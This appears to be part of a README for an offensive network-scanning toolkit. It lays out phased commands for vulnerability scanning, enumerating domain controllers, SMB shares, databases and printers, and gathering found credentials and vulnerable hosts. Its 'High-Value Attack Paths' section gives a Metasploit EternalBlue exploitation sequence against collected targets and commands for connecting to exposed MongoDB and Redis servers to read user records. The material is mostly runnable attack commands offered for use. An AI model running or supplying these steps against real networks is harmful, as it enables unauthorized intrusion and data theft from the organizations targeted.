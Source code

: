 ### Phase 2: Vulnerability Assessment
```bash
# Critical vulnerability scan
vulnseek/vulnseek.py -m --full  # EternalBlue, BlueKeep, etc.
```

### Phase 3: Enumeration
```bash
# Deep enumeration
dcseek/dcseek.py --enum          # Enumerate users/groups
smbseek/smbseek.py -t            # Test SMB share access
dbseek/dbseek.py -t              # Test database credentials
printseek/printseek.py -c private # SNMP enumeration
```

### Phase 4: Exploitation Prep
```bash
# Extract all discovered assets
cat dcseek/dclist.txt > all_targets.txt
cat printerlist.txt >> all_targets.txt
cat smblist.txt >> all_targets.txt
cat dblist.txt >> all_targets.txt

# Extract credentials
cat db_creds.txt              # Database credentials
cat dcseek/enum4linux_summary.json | jq -r '.[].users[]' > users.txt

# Extract vulnerable hosts
cat vulnlist.txt              # EternalBlue candidates
```

---

## 🔥 High-Value Attack Paths

### 1. EternalBlue Exploitation
```bash
# Find vulnerable hosts
./vulnseek.py -m

# Extract IPs
cat vulnlist.txt

# Exploit with Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:/path/to/vulnlist.txt
exploit
```

### 2. Database Compromise
```bash
# Find databases with default creds
./dbseek.py -t

# Connect to exposed MongoDB
mongo 192.168.1.100
show dbs
use admin
db.users.find()

# Connect to Redis
redis-cli -h 192.168.1.101
```